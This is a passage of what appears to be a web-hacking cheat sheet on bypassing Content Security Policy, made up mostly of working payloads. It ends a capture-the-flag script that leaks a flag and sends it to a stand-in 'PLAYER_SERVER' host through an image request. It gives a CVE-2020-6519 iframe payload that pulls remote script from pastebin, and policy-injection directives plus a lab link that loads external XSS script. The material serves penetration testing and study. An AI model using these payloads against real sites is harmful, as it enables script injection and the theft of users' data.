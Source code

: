 ```javascript
            let c = alphabet[i];
            let t =  await query(prefix+c); // Check what chars returns TRUE or FALSE
            console.log(prefix, c, t);
            if (t) {
                console.log('FOUND!')
                prefix += c;
                break;
            }
        }
        if (i==alphabet.length) {
            console.log('missing chars');
            break;
        }
        let t = await query(prefix+'}', true);
        if (t) {
            prefix += '}';
            break;
        }
    }
    new Image().src = 'http://PLAYER_SERVER/?' + prefix; //Exfiltrate the flag
    console.log(prefix);
}

run();
</script>
```

### [CVE-2020-6519](https://www.perimeterx.com/tech-blog/2020/csp-bypass-vuln-disclosure/)

```javascript
document.querySelector('DIV').innerHTML="<iframe src='javascript:var s = document.createElement(\"script\");s.src = \"https://pastebin.com/raw/dw5cWGK6\";document.body.appendChild(s);'></iframe>";
```

## Policy Injection

**Research:** [**https://portswigger.net/research/bypassing-csp-with-policy-injection**](https://portswigger.net/research/bypassing-csp-with-policy-injection)\*\*\*\*

### Chrome

If a **parameter** sent by you is being **pasted inside** the **declaration** of the **policy,** then you could **alter** the **policy** in some way that makes **it useless**. You could **allow script 'unsafe-inline'** with any of these bypasses:

```text
script-src-elem *; script-src-attr *
script-src-elem 'unsafe-inline'; script-src-attr 'unsafe-inline'
```

Because this directive will **overwrite existing script-src directives**.  
You can find an example here: [http://portswigger-labs.net/edge\_csp\_injection\_xndhfye721/?x=%3Bscript-src-elem+\*&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E](http://portswigger-labs.net/edge_csp_injection_xndhfye721/?x=%3Bscript-src-elem+*&y=%3Cscript+src=%22http://subdomain1.portswigger-labs.net/xss/xss.js%22%3E%3C/script%3E)
